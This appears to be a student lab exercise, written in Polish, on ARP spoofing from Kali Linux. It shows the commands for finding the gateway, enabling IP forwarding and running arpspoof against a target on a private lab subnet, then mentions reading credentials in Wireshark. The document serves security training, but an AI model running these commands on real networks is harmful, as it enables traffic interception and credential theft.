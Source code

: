 # Zadanie 7 - ARP Spoofing

### Ustalenie default gatway
```shell
┌──(kali㉿kali)-[~]
└─$ ip route show 
default via 192.168.179.2 dev eth0 proto dhcp src 192.168.179.129 metric 100 
192.168.179.0/24 dev eth0 proto kernel scope link src 192.168.179.129 metric 100 

```

### Uruchomienie możliwości przekazywanie pakietów
```shell
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
```

### Wykonanie ataku ARP Spoofing
```shell
sudo arpspoof -i eth0 -t 192.168.179.135 192.168.179.2 
```

### Wireshark umożliwia odczytania kerdek
![b7ba003199bab6abf79cfb715fc2f64a.png](/_resources/b7ba003199bab6abf79cfb715fc2f64a.png)
